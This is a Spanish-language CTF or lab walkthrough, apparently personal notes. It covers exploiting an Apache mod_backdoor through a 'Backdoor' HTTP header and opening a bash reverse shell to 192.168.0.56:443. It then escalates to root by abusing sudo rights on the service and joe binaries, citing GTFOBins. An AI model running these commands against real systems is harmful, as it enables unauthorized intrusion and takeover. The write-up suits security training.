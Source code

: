 Hacemos el escaneo de nmap:
![[Pasted image 20240201102552.png]]
Y esto es lo que corre por el puerto 80:
![[Pasted image 20240201102710.png]]
Si hacemos fuzzing web por extensiones de archivos, nos encontramos con un admin.php:
![[Pasted image 20240201102809.png]]
Y dentro de este archivo vemos un apartado llamado loaded modules que nos llama la atención que dice mod_backdoor:
![[Pasted image 20240201103505.png]]
Investigamos por google y nos encontramos este repositorio de github:
![[Pasted image 20240201103957.png]]
Y en este exploit vemos que lo que hace es hacer una petición con requests utilizando la cabecera Backdoor:
![[Pasted image 20240201104203.png]]
Podemos hacer esto mismo con curl de la siguiente forma:
```bash
curl -H 'Backdoor: whoami' "192.168.0.67"
```
![[Pasted image 20240201105114.png]]
Y ejecutamos la reverse shell:
```bash
curl -H 'Backdoor: bash -c "bash -i >& /dev/tcp/192.168.0.56/443 0>&1"' "192.168.0.67"
```
![[Pasted image 20240201110142.png]]
Con el comando sudo -l nos encontramos con el binario service que lo podemos ejecutar como el usuarios laurent:
![[Pasted image 20240201110510.png]]
Y en gtfobins vemos las siguientes instrucciones sobre el binario service:
![[Pasted image 20240201110720.png]]
Lo ejecutamos:
```bash
sudo -u laurent /usr/sbin/service ../../bin/bash
```
![[Pasted image 20240201110740.png]]
Y vemos otra vez que como root ahora podemos ejecutar el binario joe:
![[Pasted image 20240201110819.png]]
Tenemos estas instrucciones en gtfobins:
![[Pasted image 20240201110834.png]]
Una vez ejecutado esto, pulsamos control K y podremos escribir lo siguiente:
![[Pasted image 20240201111217.png]]
Y ya somos root:
![[Pasted image 20240201111228.png]]
